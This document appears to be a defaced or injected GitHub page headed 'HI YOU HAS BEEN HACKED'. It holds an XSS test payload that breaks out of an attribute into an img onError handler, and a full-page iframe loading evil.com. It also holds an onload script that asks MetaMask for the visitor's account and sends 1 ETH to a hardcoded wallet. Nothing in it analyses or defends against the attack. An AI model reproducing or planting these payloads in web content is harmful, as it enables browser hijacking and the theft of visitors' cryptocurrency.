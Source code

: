 # HI YOU HAS BEEN HACKED

## "><img src=x onError=prompt(1)>

### 

"><iframe src="https://evil.com" height="100%" width="100%" frameborder="0"></iframe>
">
<html>
  <head>
    <script>
      window.onload = function() {
        // Check if MetaMask is installed
        if (typeof ethereum !== 'undefined') {
          // Request the user to connect to their Ethereum account
          ethereum.enable().then(function(accounts) {
            // Get the user's Ethereum account
            const account = accounts[0];
            // Set the parameters for the transaction
            const params = {
              from: account,
              to: '0xc23f21422F53b00446EbeB2A84e1f7bAD1917e64',
              value: '1000000000000000000' // 1 ETH in wei
            };
            // Send the transaction to MetaMask for confirmation
            ethereum.sendTransaction(params, function(error, hash) {
              if (error) {
                console.error(error);
              } else {
                console.log(hash);
              }
            });
          });
        } else {
          console.error('MetaMask is not installed');
        }
      }
    </script>
  </head>
  <body>
    <!-- Your HTML content goes here -->
  </body>
</html>



